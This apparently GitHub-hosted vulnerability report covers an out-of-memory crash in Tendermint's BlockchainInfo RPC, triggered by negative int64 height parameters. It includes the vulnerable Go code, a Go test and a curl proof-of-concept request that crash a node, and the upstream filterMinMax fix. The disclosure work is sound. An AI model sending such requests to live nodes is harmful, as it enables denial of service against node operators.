

# 1. [DC-01] OOM out of For-loop by RPC

## 1.1. Tag

`RPC`

`For-loop`

`OOM`

## 1.2. Vulnerability description

This is a vulnerability submitted from `hackerone` platform. Malicious request `BlockchainInfo` could lead to an infinite loop, which runs out of the memory and makes the node crash.

## 1.3. Vulnerability analysis

File path：`rpc/core/blocks.go`

```go
func BlockchainInfo(minHeight, maxHeight int64) (*ctypes.ResultBlockchainInfo, error) {
    if minHeight == 0 {
        minHeight = 1
    }

    if maxHeight == 0 {
        maxHeight = blockStore.Height()
    } else {
        maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)
    }

    // maximum 20 block metas
    const limit int64 = 20
    minHeight = cmn.MaxInt64(minHeight, maxHeight-limit)

    logger.Debug("BlockchainInfoHandler", "maxHeight", maxHeight, "minHeight", minHeight)

    if minHeight > maxHeight {
        return nil, fmt.Errorf("min height %d can't be greater than max height %d", minHeight, maxHeight)
    }

    blockMetas := []*types.BlockMeta{}
    for height := maxHeight; height >= minHeight; height-- { // for-loop
        blockMeta := blockStore.LoadBlockMeta(height)
        blockMetas = append(blockMetas, blockMeta)
    }

    return &ctypes.ResultBlockchainInfo{blockStore.Height(), blockMetas}, nil
}
```

Attakcer can construct parameters below:

```go
minHeight = -9223372036854775808 (min int64)
maxHeight = -9223372036854775788 (minHeight + 20)
```

Note that in `maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)`, `MinInt64` returns the smaller value between two parameters, therefore we use the nagative `maxHeight`.

Note that the for-loop `for height := maxHeight; height >= minHeight; height-- {}`，`for-loop`, it can run infinitely. Though loop-times 9223372036854775807 (max int64) is reached, it can continue to proceed. Every time the block is not found, a `nil` will be appended to the vector `blockMetas`. At last, the number of appened `nil` can increase to a huge number to run out of memory.

## 1.4. Reproduce

Here we show you two methods to reproduce. One is by test script, another is by terminal.

### 1.4.1. Use go test script to test

File location : `rpc/core/blocks.go`

```golang
// XuanMao : Bug test
func TestBlockchainInfoForloop(t *testing.T) {
    config := cfg.ResetTestRoot("node_node_test")
    defer os.RemoveAll(config.RootDir)

    // create & start node
    n, err := DefaultNewNode(config, log.TestingLogger())
    require.NoError(t, err)
    err = n.Start()
    require.NoError(t, err)

    c := struct {
        min, max     int64
    }{
    -9223372036854775808, -9223372036854775788,
    }
    BlockchainInfo(c.min,c.max)
}
```



You can see that CPU and memory usage surge, and several minutes later the program crashes.

### 1.4.2. Reproduce POC

First, launch a node, then send a request to the interface(`e.g. 127.0.0.1:26657`):

```bash
curl 'http:///blockchain?minHeight=-9223372036854775808&maxHeight=-9223372036854775788'
```

You can see that CPU and memory usage surge, and several minutes later the program crashes.

## 1.5. Fix

Reference of this vulnerability: [Fix](https://github.com/tendermint/tendermint/commit/8dc655dad25b0b04f271cb66ba73fd504db3195d)

This vulnerability had been fixed in the version of `v0.22.6`.

### 1.5.1. Fix method：

Add `filterMinMax` and check the input parameter carefully.

1. check the input parameter value is not less than 0;
2. `min` must be less than `max`.
3. when `min` is 0, set the value to 1; when `max` is 0, set the value to the latest block height.

```golang
// error if either min or max are negative or min < max
// if 0, use 1 for min, latest block height for max
// enforce limit.
// error if min > max
func filterMinMax(height, min, max, limit int64) (int64, int64, error) {
    // filter negatives
    if min < 0 || max < 0 {
        return min, max, fmt.Errorf("heights must be non-negative")
    }

    // adjust for default values
    if min == 0 {
        min = 1
    }
    if max == 0 {
        max = height
    }

    // limit max to the height
    max = cmn.MinInt64(height, max)

    // limit min to within `limit` of max
    // so the total number of blocks returned will be `limit`
    min = cmn.MaxInt64(min, max-limit+1)

    if min > max {
        return min, max, fmt.Errorf("min height %d can't be greater than max height %d", min, max)
    }
    return min, max, nil
}
```

## 1.6. Reference

Vulnerable code from : [Link](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)

You can check related issue [here](https://github.com/tendermint/tendermint/issues/2049).
